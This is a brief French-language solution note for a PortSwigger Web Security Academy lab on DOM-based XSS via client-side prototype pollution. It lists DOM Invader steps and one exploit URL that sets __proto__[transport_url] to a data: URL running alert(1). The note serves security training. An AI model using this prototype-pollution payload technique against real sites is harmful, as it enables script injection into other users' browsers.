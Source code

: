 # Lab

https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution

## Solution

Activer le prototype pollution dans DOM Invader.

Rafraichir la page.

Trouver le point d'entrer et scanner pour un gadget.

Créer l'exploit avec DOM Invader : `https://0a5c00c804a51dc480ecb77a0021007a.web-security-academy.net/?__proto__[transport_url]=data%3A%2Calert%281%29`